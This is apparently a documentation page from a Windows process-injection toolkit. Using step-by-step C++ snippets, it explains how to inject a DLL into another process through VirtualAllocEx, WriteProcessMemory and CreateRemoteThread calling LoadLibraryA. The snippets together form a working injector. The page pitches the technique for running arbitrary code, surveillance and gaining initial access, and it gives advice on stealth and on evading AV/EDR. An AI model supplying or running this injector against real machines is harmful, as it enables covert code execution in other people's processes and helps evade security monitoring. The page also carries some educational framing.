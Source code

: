 # DLL Injection via LoadLibrary + CreateRemoteThread

---

## Overview

This technique injects a DLL into a remote process by writing the path to the DLL into the target's memory and launching a remote thread that calls `LoadLibraryA`. It’s one of the oldest and most widely used injection methods on Windows.

---

## When and Why to Use

LoadLibrary-based DLL injection is simple, stable, and compatible across all modern Windows versions. It’s commonly used to:

- Execute arbitrary code inside another process  
- Hook or modify application behavior  
- Load instrumentation or surveillance tools  
- Establish initial access before switching to stealthier methods

Despite being well-known and often monitored by security tools, it remains a solid choice for prototyping, learning, and initial exploitation.

---

## Step-by-Step Breakdown

### 1. Get the Target Process ID

```cpp
DWORD pid;
std::cin >> pid;
```

The injector prompts for the Process ID (PID) of the target. This can be retrieved using Task Manager, Process Explorer, or programmatically via snapshot APIs.

---

### 2. Open the Target Process

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

The handle must be opened with access rights for:

- Memory allocation (`PROCESS_VM_OPERATION`)
- Memory writing (`PROCESS_VM_WRITE`)
- Thread creation (`PROCESS_CREATE_THREAD`)

On protected or higher-privileged processes, administrator rights may be required.

---

### 3. Allocate Memory for the DLL Path

```cpp
LPVOID remoteMemory = VirtualAllocEx(
    hProcess, nullptr, dllPath.length() + 1,
    MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

Allocates space inside the remote process to hold the DLL path as a null-terminated string. The memory must be writable so it can be populated with the path.

---

### 4. Write the DLL Path into Remote Memory

```cpp
WriteProcessMemory(hProcess, remoteMemory,
                   dllPath.c_str(), dllPath.length() + 1, nullptr);
```

This copies the DLL path string into the allocated memory space. The path must be absolute and null-terminated to be interpreted correctly by `LoadLibraryA`.

---

### 5. Resolve Address of LoadLibraryA

```cpp
FARPROC loadLibraryAddr = GetProcAddress(
    GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
```

Since `kernel32.dll` is loaded in nearly every process, its base address is available. `GetProcAddress` retrieves the address of `LoadLibraryA`, which will serve as the entry point for the new remote thread.

---

### 6. Create the Remote Thread

```cpp
HANDLE hThread = CreateRemoteThread(
    hProcess, nullptr, 0,
    (LPTHREAD_START_ROUTINE)loadLibraryAddr,
    remoteMemory, 0, nullptr);
```

This creates a thread inside the target process. The thread will call `LoadLibraryA` using the address of the DLL path we wrote earlier. This causes the target process to load the DLL and execute its `DllMain`.

---

### (Optional) 7. Wait for Completion

```cpp
WaitForSingleObject(hThread, INFINITE);
```

Used if you want to ensure the thread completes before continuing execution. Useful in debugging or post-injection validation.

---

## API Summary

| Function              | Description                              |
|-----------------------|------------------------------------------|
| `OpenProcess`         | Obtain a handle to the target process    |
| `VirtualAllocEx`      | Allocate memory in the target process    |
| `WriteProcessMemory`  | Write data (DLL path) into that memory   |
| `GetProcAddress`      | Resolve the address of `LoadLibraryA`    |
| `CreateRemoteThread`  | Start a thread in the target process     |

---

## Security Considerations

- User Account Control (UAC) may block access to higher-privileged processes  
- Anti-virus and EDR systems often monitor calls to `CreateRemoteThread` and suspicious DLL loads  
- Some applications validate loaded DLLs or restrict from loading non-whitelisted libraries

For stealth, consider combining with DLL proxying, path obfuscation, or transitioning to more advanced techniques such as reflective DLL injection or manual mapping.

---

## Educational Value

Understanding this technique builds a foundation in:

- Windows process memory layout  
- Inter-process communication and API usage  
- DLL loading mechanics  
- Remote thread execution in user-mode

This method is an essential step before moving on to more advanced payload delivery methods such as manual DLL mapping or shellcode injection.

---

## Source Code

See [`../src/injection_dll_loadlibrary.cpp`](../src/injection_dll_loadlibrary.cpp) for the full implementation.
